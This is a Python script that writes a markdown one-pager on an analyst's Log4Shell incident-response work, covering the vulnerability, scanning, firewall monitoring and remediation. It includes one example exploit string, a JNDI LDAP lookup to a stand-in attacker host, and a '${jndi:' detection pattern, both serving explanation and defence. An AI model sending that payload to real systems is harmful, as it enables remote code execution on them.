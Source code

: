 from pathlib import Path

# Markdown content for the Log4j Incident Response One-Pager
markdown_content = """
# Log4j Incident Response – One-Pager  
**Role:** Security Operations Analyst  
**Duration:** Dec 2021 – Jan 2022  
**Tools Used:** Qualys, Palo Alto Panorama, SolarWinds, Slack/Bridge Calls  

---

## 📌 What is Log4j?  
Apache Log4j is a Java-based logging utility used in countless enterprise applications. In December 2021, a critical vulnerability—**CVE-2021-44228 (Log4Shell)**—was discovered that allowed **unauthenticated remote code execution (RCE)** via **JNDI lookups** in log messages.

- **CVSS Score:** 10.0 (Critical)  
- **Affected Versions:** ≤ 2.14.1  
- **Fixed in:** 2.15.0 and later  
- **Exploit Example:** `${jndi:ldap://attacker.com/payload}`  

---

## 🕵️‍♂️ Why It Was Dangerous  
- Widespread usage across Java apps (e.g., Minecraft, VMware, Apple iCloud, AWS)  
- Enabled full remote code execution with minimal effort  
- Led to deep supply chain compromise and APT activation  
- Embedded in shadow dependencies (JARs inside JARs)

---

## 🛡️ My Role During the Incident  
I worked on the **Security Operations Team** at TCS supporting AMD’s infrastructure during the crisis. This involved **real-time detection, monitoring, and remediation** in collaboration with L2/L3 teams and external partners.

---

## 🎯 Key Responsibilities & Contributions

### 🔍 Vulnerability Detection
- Managed **Qualys Cloud Agent** to ensure accurate detection (QIDs: 376157, 376178, 91495)  
- Scanned for vulnerable Log4j instances across Linux/Windows systems  
- Flagged high-risk servers for immediate patching and isolation  

### 🌐 Firewall & Perimeter Defense
- Monitored **Palo Alto Panorama** for outbound LDAP/RMI/DNS exploit traffic  
- Applied dynamic firewall rules to **block JNDI lookup patterns**  
- Detected suspicious communication with external command servers  

### 📊 Incident Coordination & Reporting
- Participated in **24x7 bridge calls and war-room sessions**  
- Documented exposure impact, patch status, and escalation workflows  
- Used **SolarWinds** for system discovery, patch prioritization, and health checks  

---

## 🧰 Remediation Actions
- Upgraded Log4j to version **2.16+ / 2.17+**  
- Disabled JNDI lookups: `log4j2.formatMsgNoLookups=true`  
- Applied **WAF rules** and SIEM detection signatures for `${jndi:` patterns  
- Implemented **compensating controls** and monitored patch completion  

---

## 📘 Outcome & Learning
Supported large-scale incident response for a global zero-day exploit involving multiple threat vectors, including suspected **APT activity**. Gained hands-on experience with **real-time detection, cross-functional security collaboration**, and **tool-based mitigation** under pressure.
"""

# Save the markdown file
output_path = Path("/mnt/data/log4j-incident-response.md")
output_path.write_text(markdown_content.strip())

output_path.name
